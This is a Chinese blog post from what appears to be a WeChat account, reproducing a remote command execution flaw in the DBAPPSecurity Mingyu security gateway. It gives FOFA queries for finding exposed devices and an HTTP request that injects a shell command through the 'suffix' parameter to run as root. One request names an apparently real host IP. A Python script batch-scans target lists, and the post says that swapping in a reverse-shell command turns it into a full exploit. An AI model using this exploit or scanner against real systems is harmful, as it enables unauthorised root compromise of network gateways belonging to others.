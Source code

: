 #  【2023HW】安恒明御安全网关远程命令执行漏洞

原创 富贵竹  [ AI与网安 ](javascript:void\(0\);)

**AI与网安** ![]()

微信号 gh_c57275954216

功能介绍 AI算法在网络安全中的应用以及漏洞复现

____

___发表于_

收录于合集

申明： **本 文仅供技术学习参考使用，请勿用作违法用途，否则后果自负。**

 ****

一 、漏洞名称

安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞

二、漏洞影响

安恒 明御安全网关

![]()

三、漏洞描述

安恒 明御安全网关 aaa_portal_auth_local_submit 存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限。

四、资产FOFA搜索语句

  *   *   * 

    
    
    body="/webui/?g=page_frame_login_vldcode&vldcode=" && title=="下一代防火墙"或者body="/webui/images/basic/login/" && title=="明御安全网关"

五、漏洞复现

第一步、向目标发送如下请求数据包，在目标主机上执行id命令，并将执行结果写入frrgkquigh.txt文件

  *   *   * 

    
    
    GET /webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix=%60id+%3E/usr/local/webui/frrgkquigh.txt%60 HTTP/1.1Host: xx.xx.xx.xx:9099User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36

响应内容如下，表示命令执行成功  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200 OKP3p: CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"Content-Type: text/htmlDate: Thu, 07 Sep 2023 04:48:29 GMTPragma: no-cacheCache-Control: privateServer: lighttpd/1.4.39Set-Cookie: USGSESSID=718870294b15575bd0a52c1db6955da9; path=/; HttpOnlyExpires: Thu, 19 Nov 1981 08:52:00 GMT  
    ﻿{"success":"local_logo"}

第二步，请求路径http://xx.xx.xx.xx:9099/frrgkquigh.txt查看执行结果文件

  *   *   * 

    
    
    GET /frrgkquigh.txt HTTP/1.1Host: 112.36.20.30:9099User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36

响应内容如下，页面包含了uid=0(root) gid=0(root)  

  *   *   *   *   *   *   *   *   *   * 

    
    
    HTTP/1.1 200 OKEtag: "2608808421"Last-Modified: Thu, 07 Sep 2023 04:48:29 GMTContent-Length: 24Date: Thu, 07 Sep 2023 04:48:29 GMTServer: lighttpd/1.4.39Content-Type: text/plainAccept-Ranges: bytes  
    uid=0(root) gid=0(root)

证明存在该漏洞

六、漏洞验证poc

该python脚本可以批量检测漏洞，C:\Users\DELL\Desktop\1005.txt为输入目标文件，每行是一个url

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import argparseimport timeimport requests  
    def get_url(file):    with open('{}'.format(file),'r',encoding='utf-8') as f:        for i in f:            i = i.replace('\n', '')            send_req(i)  
    def write_result(content):    f = open("result.txt", "a", encoding="UTF-8")    f.write('{}\n'.format(content))    f.close()  
      
    def send_req(url_check):    print('{} runing Check'.format(url_check))    url = url_check + '/webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix=%60id+%3E/usr/local/webui/frrgkquigh.txt%60'    header = {        'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36'    }        try:        requests.packages.urllib3.disable_warnings()        response = requests.get(url=url,headers=header,verify=False,timeout=3)                url2 = "{}/frrgkquigh.txt".format(url_check)        res2 = requests.get(url2, verify=False)                # 定义正则表达式模式        pattern = r"(u|g)id|groups=[0-9]{1,4}\([a-z0-9]+\)"        # 使用re.search()函数进行匹配        match = re.search(pattern, res2.text)                if response.status_code == 200 and res2.status_code == 200 and match:            result = '{} 存在安恒 明御安全网关 aaa_portal_auth_local_submit 远程命令执行漏洞! 请访问目标自测：{} \n'.format(url_check,url2)            print(result)            write_result(result)        time.sleep(1)    except Exception as e:        pass  
    if __name__ == '__main__':    file = r"C:\Users\DELL\Desktop\1005.txt"    get_url(file)

七、漏洞利用exp

只需将上面poc脚本url = url_check +
'/webui/?g=aaa_portal_auth_local_submit&bkg_flag=0&suffix=%60id+%3E/usr/local/webui/frrgkquigh.txt%60'中的suffix参数替换成反弹shell命令即可

常用反弹shell的命令查看前面的文章【移动路由器Cellular Router命令执行漏洞复现】

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

